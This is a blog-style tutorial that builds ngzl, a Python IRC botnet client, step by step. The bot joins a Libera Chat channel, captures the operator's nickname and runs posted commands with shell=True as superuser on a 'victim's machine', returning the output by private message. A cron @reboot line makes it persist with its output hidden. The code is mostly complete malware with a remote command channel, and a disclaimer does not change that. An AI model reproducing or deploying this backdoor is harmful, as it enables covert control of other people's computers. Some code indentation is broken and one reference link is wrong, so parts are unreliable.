

## TL;DR

- [The script](https://github.com/syswraith/ngzl)
- Python script that uses the IRC protocol to issue commands to the bots and send back output to the bot herder.
- If extended, can include functionality such as:
  - [x] Daemonizing with `cron`
  - [x] Auto-update
  - [ ] Auto-corrupt

## Words of caution

- Using this script for nefarious purposes is strictly prohibited and I will not be responsible for any damages that may be caused.
- This script was authored by me for the purpose of learning more about Python libraries, mainly `os`, `socket` and `subprocess`. It does not follow the best practices or conventions. It's just a really basic prototype.

# About the IRC protocol

> The IRC protocol was developed over the last 4 years since it was first implemented as a means for users on a BBS to chat amongst themselves. Now it supports a world-wide network of servers and clients, and is stringing to cope with growth.
>
> Over the past 2 years, the average number of users connected to the main IRC network has grown by a factor of 10.
>
> The IRC protocol is a text-based protocol, with the simplest client being any socket program capable of connecting to the server.
>
> ~ _Abstract, RFC 1459_

- IRC is a TCP-based protocol that supports multi-user communication in real time.
- It was created in 1988 by Jarkko "WiZ" Oikarinen at the University of Oulu in Finland, to extend his BBS software.
- Anything that connected to the IRC server is termed as a client.
- The protocol was then formalized in RFC 1459 when the specification was laid out for the general public.
- IRC is insecure by default- all communications are made using plaintext and are unencrypted.
- Some of the popular IRC servers operating today are [Libera Chat](https://libera.chat), [Freenode](https://freenode.net/), [IRCnet](https://www.ircnet.com/), etc.

```
                           [ Server 15 ]  [ Server 13 ] [ Server 14]
                                 /                \         /
                                /                  \       /
        [ Server 11 ] ------ [ Server 1 ]       [ Server 12]
                              /        \          /
                             /          \        /
                  [ Server 2 ]          [ Server 3 ]
                    /       \                      \
                   /         \                      \
           [ Server 4 ]    [ Server 5 ]         [ Server 6 ]
            /    |    \                           /
           /     |     \                         /
          /      |      \____                   /
         /       |           \                 /
 [ Server 7 ] [ Server 8 ] [ Server 9 ]   [ Server 10 ]

                                  :
                               [ etc. ]
                                  :

                 [ Format of IRC server network ]
```

# About Botnets

- A botnet is a group of devices, which can be used to perform malicious activities such as distributed denial of service attacks, steal personal information, send spam and allow the attacker to access and utilise the device's network and resources.
- Malware infecting a machine through various means (phishing emails, malicious websites, vulnerable software) is the main cause of creation of a botnet. Malware turns devices into "zombies" or "bots" that are under the attackers command.
- Botnets have traditionally followed the client-server architecture, but nowadays we see the rise of peer-to-peer type networks as well.
- Known botnets include the [Carna Botnet](https://en.wikipedia.org/wiki/Carna_botnet), [ZeuS](<https://en.wikipedia.org/wiki/Zeus_(malware)>), [Mirai](https://en.wikipedia.org/wiki/Carna_botnet), etc.

# Creating a botnet script

The program that we will work on is a payload that will execute on a victim's machine, and turn it into a "bot". The code is available at [syswraith/ngzl](https://github.com/syswraith/ngzl) under the MIT license.
This is its directory structure:

```
.
├── init.sh
├── ngzl.py
└── README.md

1 directory, 3 files
```

Files of importance are:

- `init.sh` this script calls ngzl.py. It was added so that the botnet script can update itself more easily. More on this later.
- `ngzl.py` this is the main script that turns the device into a bot. This script is assumed to be executed with **superuser** priviledges.

## Steps

1. First, we will decide what service we're going to use. I am familiar with Libera Chat. Following are the configuration options that I have decided on.

```python
server = "irc.libera.chat"
port = 6667
channel = "#feycomm"
nick = os.uname()[1] + "09"
```

2. We define a function named `connect_routine` with the above configurations as parameters. In this function, we create a basic TCP socket and connect to the server and port.

```python
irc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
irc.connect((server, port))
```

3. We also send the respective commands to set the nickname and join the channel that we decided on before. Note that these commands need to be encoded as **bytes** and NOT as normal strings.

```python
irc.send(f"NICK {nick}\r\n".encode())
irc.send(f"USER {nick} 0 * :{nick}\r\n".encode())
irc.send(f"JOIN {channel}\r\n".encode())
irc.send(f"PRIVMSG {channel} :{nick} has connected. Awaiting username capture.\r\n".encode())
```

4. Now we need to listen for broadcasted messages. Since we don't know how long we'll be listening for, we will use a infinite `while` loop to listen continuously.
5. Since we don't need to read the whole response, we will only read 2048 bytes into it.

```python
while True:
    response = irc.recv(2048).decode()
```

6. Now to the crux of the program. There are three main features that I'm going to implement- the ability of the bot to respond to PINGS, the ability of the bot to record the username of the bot operator, and the ability to execute the commands issued by the bot operator. The second feature is vital for the third to work.



7. The first one is simple enough, you just have to respond with `PONG` every time someone says `PING`, followed by the server name.

```python
if response.startswith("PING"):
    server_data = response.split(":", 1)[1]  # Get everything after the ":"
    irc.send(f"PONG :{server_data}\r\n".encode())
"""
this is for the following PING messages:
PING :lead.libera.chat
PING :iridium.libera.chat
"""
```

9. IRC messages follow a _pseudo BNF_ format- they are prefixed with a `:` and are always suffixed with trailing `CR-LF` characters. A message from a user looks like this:
   `:Guest99!~Guest99@2402:e281:3d7e:4e:5e9:d2a2:e8ce:6b02 PRIVMSG #feycomm :hello`
   To get the username of the bot operator, we need to parse the response. Here, we note the positions of `:` and `!`, whatever string follows in between is the username.

```python
elif "IDENTIFY-9" in response:
    startIndex = response.index(":")+1
    endIndex = response.index("!")
    username = response[startIndex:endIndex]
    print(f"Username captured: `{username}`")
    irc.send(f"PRIVMSG {channel} :Username captured: {username}. Awaiting commands.\r\n".encode())
```

10. Next is the interesting part! We have recorded the username in the previous step so that we can send `PRIVMSGs` to the operator. It is intentionally designed because a single bot cannot send a flood of input (read: command output) to the IRC server (the server rate-limits you, I checked) and it cannot send too many messages too quickly. Therefore we `time.sleep()` our messages and send them to the bot operator directly instead of sending them in the channel, as to avoid confusion.

```python
elif "<9>" in response:
 command = response[response.index("<9> ")+4:].strip()
    print(f"Command issued: `{command}`")
    result = subprocess.run(command, shell=True, capture_output=True, text=True)
    resultxt = result.stdout.strip().splitlines()
    for x in resultxt:
     time.sleep(1)
        irc.send(f"PRIVMSG {username} :{x}\r\n".encode())

```

And that's it! That's the core functionality of the script.

### Miscellaneous

Here's a little update function that may aid in the updating of the `init.sh` script.

```python
def update_init():
    with open("new_init.sh", "w") as f:
        # logic to get new content here
        f.write("UPDATED CONTENT GOES HERE")
    os.replace("new_init.sh", "init.sh")
```

And here's the command to _daemonize_ the script using `cron` and run it on startup. Output and errors are discarded.

```bash
crontab -e

# Add the following line
@reboot nohup path-to-script/init.sh > /dev/null 2>&1 & disown
```
